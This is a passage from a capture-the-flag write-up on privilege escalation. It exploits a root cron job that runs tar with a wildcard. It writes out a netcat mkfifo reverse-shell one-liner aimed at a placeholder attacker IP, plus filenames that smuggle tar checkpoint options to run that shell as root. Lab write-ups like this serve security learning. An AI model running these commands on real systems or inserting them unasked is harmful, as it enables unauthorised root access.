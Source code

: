 ### Priv Esc

Looking at the file system there are two files backup.sh and backup.tgz both owned by root.

```highlight
drwxr-xr-x 2 root       root       4.0K Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson 4.0K Sep 17  2019 ..
-rwxr-xr-x 1 root       root         74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4.5M Jan 24 10:59 backup.tgz
```

The script is really simple, just creating a backup tar file or /var/www/html.

```highlight
$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

However because the tar command is using * which is a wild card and it appears the script is being run by root as a cron job we can exploit this to get a reverse shell. This [article](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) explains it in detail.

I following the same steps in the article and set my port to 5555 as already have a shell on port 4444.

```highlight
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {{ATTACKIP}} 5555 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```

Now just wait for a minute and we now have a root shell!

Thanks for reading!
